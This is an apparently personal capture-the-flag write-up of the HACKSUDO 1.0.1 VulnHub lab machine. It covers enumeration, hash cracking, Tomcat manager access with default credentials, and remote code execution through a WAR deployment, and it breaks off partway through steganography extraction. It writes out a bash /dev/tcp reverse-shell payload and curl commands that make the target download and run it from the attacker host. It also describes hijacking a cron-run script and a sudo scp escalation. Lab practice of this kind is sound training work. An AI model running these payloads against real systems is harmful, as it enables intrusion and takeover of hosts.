# HACKSUDO 1.0.1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [HACKSUDO: 1.0.1](https://www.vulnhub.com/entry/hacksudo-101,650/)
- CVSS3 : [AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This works better with VirtualBox rather than VMware*

## Summary
HACKSUDO: 1.0.1 starts with a misconfigured web app where I can see the PHP code in the `view-source` mode, with the `nmap`  `http-enum` script I find the `/users.sql` file that contains credentials to two users, and both of them have a weak password that I could crack with `hashcat`, `jimit:100596` and  `admin:admin`. In PORT `8080`  runs the `Tomcat 9.0.24` service, after reading the  [Hacktricks Tomcat section](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce) I identify a possible Remote Code Execution RCE, to test it, I need to access `/manager/html` but it requires basic auth, then I try with both credentials I find before, and the `admin:admin` credential works, to try the RCE I first use the tool they  [github tool tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) that the Hacktrics post recommend, but I notice that is slow, then I read the code and perform a reverse shell as the `tomcat` user on my own. I can see the `flag1` and `flag2` in `/var/www/html` and `/home/vishal` respectively. I find a backup directory in `/var/backups/hacksudo` and it has clues that it uses `steganography` to hide data in the `vishal.jpg` file, in [stego-tricks section in Hacktricks](https://book.hacktricks.xyz/crypto-and-stego/stego-tricks) I find the [`Stegcracker`](https://github.com/Paradoxis/StegCracker) tool, but it is deprecated, and it recommends to use the [`stegseek`](https://github.com/RickdeJager/stegseek) instead, after use `stegseek` it finds the `s3cr3t.txt` file, and it has a text with the `ROT13` substitution cipher, I use `CyberChef` to decipher it, and I find a hash that with `hashid` I guess is `SHA-512` and with `hashcat`  and the Rockyou list I could crack it, and with that password, I could `ssh` with the `vishal` user. The `vishal` home has the `/home/vishal/office` directory and it has a `hacksudo` executable binary C program, but it only can be run by the `hacksudo` user, then I think maybe there is a background process that runs that binary, I use `pspy64` and identify that my guess is correct, and the `hacksudo` file runs the `/home/vishal/office/manage.sh` script, and I can modify the `manage.sh` file, then I only add a reverse shell payload to that file and I get the `hacksudo` shell, and the user flag. With the `hacksudo` shell, I identify that the user can run `/usr/bin/scp` with sudo privileges without a password, and I find  [`scp` in gtfobins](https://gtfobins.github.io/gtfobins/scp/) and I get the root shell and the root flag.

1. CWE-284: Exposure of Sensitive Information to an Unauthorized Actor
2. CWE-0916: Use of Password Hash With Insufficient Computational Effort
3. CWE-1392: Use of Default Credentials
4. CWE-530: Exposure of Backup File to an Unauthorized Control Sphere
5. CWE-676: Use of Potentially Dangerous Function
6. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #CyberChef #HashID #HashCat  #Ghidra #MD5 #Pspy #gtfobins #Tomcat #Backdoor  #WAR #stegseek #steganography #SubstitutionCipher #ROT13 #SHA-512

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.02.35`



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.2.35
...SNIPPED...
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.46 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.24
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...SNIPPED...
```
Then I identify 3 open ports, the `Apache httpd 2.4.46` service runs on `80` TCP, and the `OpenSSH 8.3p1` service runs on `2222` TCP, and the `Apache Tomcat 9.0.24` service runs on `8080` TCP, and it runs on `Ubuntu`.
When I scan it again with the `http-enum` script:
```shell
$ nmap -p 80,8080 -sV --script=http-enum -oA scans/nmap_http_scan \
> 192.168.2.35
```
Then I get the output:



And I identify several interesting directories and files.

## Normal use case
Given I access `http://192.168.2.35`, then I can see:



And it contains a login form, and a registration form. When I try to fill out any of the forms, then I see the PHP code of the page:



And that makes me think that the web app is not working properly.

Given I access `http://192.168.2.35:8080`, then I can see:



And it is an `Apache Tomcat 9.0.24` service.

## Dynamic detection
Exposed user databases in the webroot, and weak passwords, and Remote code execution in tomcat using default credentials.

When I look at the `view-source:http://192.168.2.35/`, then I can see some PHP code, and from lines 1 to 6:
```html
1 <?php
2 session_start();
3 if(isset($_SESSION['username'])){
4   header("Location: fandom.php");
5 }
6 ?>
```
And from lines 67 to 71:
```html
67  $file = $_GET['file'];
68  if(isset($file))
69  {
70      include("$file");
71  }
```
And I identify an endpoint called `fandom.php`, And the `file` parameter in the `GET` request uses the include function. When I check the `fandom.php` endpoint, then I see:


And I see the endpoints `got.php`, `hp.php`, and `hg.php`, When I see any of those three endpoints, then I get a similar view:



And there I can also see the PHP code in plain text, when I check the found files with the `nmap` script, and I start with `/admin.php`, then I see:



And I find the endpoint `inventory.php`, When I access `/inventary.php`, then I see:



And in the source code, I find the include to `config.php`, when I access `/config.php`, then I can see:



And the connection to the database uses the `root` user with no password, and I see the database name `hacksudo`.
When I access `/users.sql`, then I get a file:



And I can see two users `Jimit` and `Admin`, And they have the password stored with a hash. When I store those two hash in `Jimit.hash` and `Admin.hash` files, and I use the `hashid` command:
```shell
$ hashid Jimit.hash
```
And I identify that they used an `MD5` hash, And I use the `hascat` command with the Rockyou list:
```shell
$ hashcat -a 0 -m 0 Jimit.hash rockyou.txt --force
...
b15fbfaac3776e5a2ad330fbf7976da7:100596
...
```
Then I was able to crack it. When I repeat the process to the `admin` hash,  then I get the output:
```shell
...
21232f297a57a5a743894a0e4a801fc3:admin
...
```
And I was able to crack both passwords, but I do not find anything else interesting, and I decided to check out the `Tomcat` site.

Given I access `http://192.168.2.35:8080/`, and I know that it runs the `Tomcat 9.0.24` service, then I start reading about how to enumerate it. When I read about it in the [Hacktricks Tomcat section](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat#rce):



Then I see a possible RCE as long as I have the admin credentials, when I try to access `/manager/html`, and it asks me for credentials with basic authentication, and I try the credentials `admin:admin`, then it works:



And from what I read, I can perform an RCE by uploading a `.war` file, And it mentions a [github tool tomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) for that, when I use the `git` command to clone it:
```shell
$ git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
And inside the repository, I run the Python3 command:
```shell
$ python3 tomcatWarDeployer.py -x -U admin -P admin -H 192.168.2.31 \
> -p 1234 192.168.2.35:8080/manager/html/

TypeError: can only concatenate str (not "bytes") to str
```
Then it fails with a version error between Python2 and Python3 and I had to fix that error on multiple lines, but after that, I get the output:
```shell
...
INFO: Reverse shell will connect to: 192.168.2.31:1234.
INFO: Apache Tomcat/b'9.0.24' Manager Application reached & validated.
INFO: At: "http://192.168.2.35:8080/manager/html/"
INFO: WAR DEPLOYED! Invoking it...
...
b'tomcat'@b'hacksudo' $
```
And I get a web shell with the tomcat user:



## Exploitation
Reverse shell, extracting data from an image and abusing user permissions

Given I access `http://192.168.2.35:8080/`, and it runs the `Tomcat 9.0.24` service, and I have the `admin` credentials `admin:admin`, and I use the `tomcatWarDeployer` to create the `.war` file, then I can perform a reverse shell.

When I was using the `tomcatWarDeployer` tool, then I noticed that the script is very slow in my virtual machine, and I decided to check how it works to handle it on my own, and it makes a `POST` request to the endpoint created by the `.war` file, and in this case, it is called `/jsp_app`, and the POST body uses a password given by the `tomcatWarDeployer` tool, and the `cmd` parameter, where I can send `bash` commands. When I store the following payload in a file called `rs.sh`:
```shell
$ echo "bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'" > rs.sh
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.serve 8000
```
And I use the `curl` command to download the `rs.sh`, and run it in memory:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d \
> 'password=aTmbDOvyUJTH&cmd=wget%20-O-%20192.168.2.31:8000/rs.sh%20|bash'
```
But it does not work, and after sending some commands,then I noticed that the pipe `|` is not being interpreted, and I decided to separate my payload into two steps, when I download the `rs.sh` file to the `/tmp/` directory:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d 'password=aTmbDOvyUJTH&
> cmd=wget%20-O%20/tmp/rs.sh%20192.168.2.31:8000/rs.sh'
```
And after that, I run the `/tmp/sh.sh`:
```shell
$ curl 'http://192.168.2.35:8080/jsp_app/' -d \
> 'password=aTmbDOvyUJTH&cmd=bash%20/tmp/rs.sh'
```
Then it works:



When I start to explore the server, and I use the `ls` command:
```shell
$ tomcat@hacksudo:/$ ls -laR /home
```
And I can see two users, `hacksudo` and `vishal`, and I see the user flag in the hacksudo home directory. but I only can read it when I get the `hacksudo` shell. when I see the `vishal` home directory, then I can see the second flag:



And that means that somewhere there should be the first flag, and I also see the `/office` directory, and I can read it.
When I look at the files in the `office` directory:
```shell
$ tomcat@hacksudo:/home/vishal/office$ ls -la
...SNIPPED...
---xr--r-- 1 hacksudo hacksudo 16704 Jan 28  2021 hacksudo
-rw-rw-r-- 1 vishal   vishal     110 Jan 28  2021 hacksudo.c
-rwxrwxr-x 1 vishal   vishal     366 Feb  2 14:35 manage.sh
```
Then I see the `hacksudo` file, and it can only be executed by the user `hacksudo`, and I can conclude that I first need to pivot to the `vishal` user, and after that, I need to pivot to the `hacksudo` user

## Lateral movement

Then I continue exploring the server, and looking for the first flag, and for a way to get the `vishal` shell. When I use the `ls` command in the webroot:
```shell
$ tomcat@hacksudo:/var/www$ ls -la
...SNIPPED...
-rw-r--r--  1 www-data www-data   29 Mar 30  2021 backup
drwxr-xr-x  6 www-data www-data 4096 Jan 29  2021 html
```
Then I see the `backup` file, and it contains:
```
recover your access,from ***
```
And that seems to be a clue, when I look at the `html` directory, then I find the first flag:



When I continued to explore the server, then I think of the `backup` file stored in the webroot, and maybe that means I can find something in the `backup` directory. When I look at the `backup` directory:
```shell
$ tomcat@hacksudo:/var/backups$ ls -la
...
drwxr-xr-x  2 www-data www-data   4096 Mar 30  2021 hacksudo
```
Then I find a `hacksudo`  direcotry that belongs to `www-data`, and inside that directory I see:
```shell
...SNIPPED...
-rw-r--r-- 1 www-data www-data   176 Jan 29  2021 hacksudo.zip
-rw-r--r-- 1 www-data www-data    12 Mar 30  2021 log.txt
-rw-r--r-- 1 www-data www-data 96006 Mar 30  2021 vishal.jpg
```
When I read the `log.txt` file:
```
ilovestegno
```
And the word `stegno` combined with the fact that there is a `jpg` file, and the `jpg` has the name `vishal`, then it is likely that `vishal`'s credentials are hidden in that image. When I search in hacktricks about `steganography`, then I find the [stego-tricks section in Hacktricks](https://book.hacktricks.xyz/crypto-and-stego/stego-tricks), and it shows many tools, and the data extraction section mentions the [`Stegcracker`](https://github.com/Paradoxis/StegCracker) tool, when I go to the stegcracker tool repository, then I find a disclaimer recommending me to go to `stegseek` instead. When I see the [`stegseek` repository](https://github.com/RickdeJager/stegseek), and I download the `.deb` file:

```shell
$ wget "https://github.com/RickdeJager/stegseek/releases/download/v0.6/
> stegseek_0.6-1.deb"
```
Then I install it:
```shell
$ sudo apt install ./stegseek_0.6-1.deb
```
And to copy the `vishal.jpg` file from the target server, I run:
```shell
$ tomcat@hacksudo:/var/backups/hacksudo$ cat vishal.jpg | base64 -w 0
```
And I copy to the clipboard the `base64` encoded text, and I decoded with CyberChef:

